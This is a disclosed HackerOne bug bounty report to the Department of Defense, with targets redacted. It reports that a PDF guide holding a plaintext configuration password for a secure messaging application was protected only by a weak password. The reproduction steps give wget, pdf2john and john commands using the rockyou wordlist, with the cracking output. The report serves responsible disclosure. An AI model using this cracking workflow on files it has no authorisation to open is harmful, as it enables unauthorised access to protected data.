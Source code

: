 # Password Cracking - Weak Password Used to Secure ████ Containing a Plaintext Password

## Report Details
- **Report ID**: 985133
- **URL**: https://hackerone.com/reports/985133
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-09-18T05:39:31.410Z
- **Disclosed**: 2021-02-18T19:14:14.454Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I was able to crack the password to the ████████ located at ██████, as the pdf was protected with a weak password contained in a common word list. This guide contains steps to set-up the ███████ secure communication application with the unprotected configuration file located at██████████. This guide also contains a plaintext password for the configuration file.

## Step-by-step Reproduction Instructions

1. Browse to ███
2. Click `████████`. You will be prompted for a password.
3. Using wget, download the pdf: `wget ████████`.
4. Once downloaded, you can use `pdf2john` to convert the pdf password into a format that is parse-able by `john`: 
`perl /path/to/john/pdf2john.pl █████████.pdf`
5. This will produce a hash. Cracking this hash with `john` and the `rockyou` wordlist will produce the password: 

```
root@kali:/home/kali# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 6 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
█████████           (████████.pdf)
1g 0:00:00:00 DONE (2020-09-18 01:08) 1.785g/s 2285p/s 2285c/s 2285C/s 753951..poohbear1
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed
```

7. You can now browse to █████████, click `███`, and type in the password `█████████` to view the pdf (or view it on your local system).
8. Reading the setup instructions, and attacker can download the `Messaging Config`to download the ████ configuration file. This mobile guide contains the plaintext password for the configuration file (`███████`). They can then attempt to use the configuration file and a compromised `.mil`/`.gov`/etc. account to gain access to ████ secure communications.

## References
https://github.com/openwall/john/blob/bleeding-jumbo/run/pdf2john.pl

## Suggested Mitigation/Remediation Actions
Use a strong password for this .pdf file in order to prevent successful password cracking attempts.

## Impact

This guide contains steps to set-up the ███████ secure communication application with the unprotected configuration file located at█████. This guide also contains a plaintext password for the configuration file. An attacker could potentially join the secure communication channel if they were able to obtain access to the DoD ID number of an ███ member.

## Attachments
No attachments
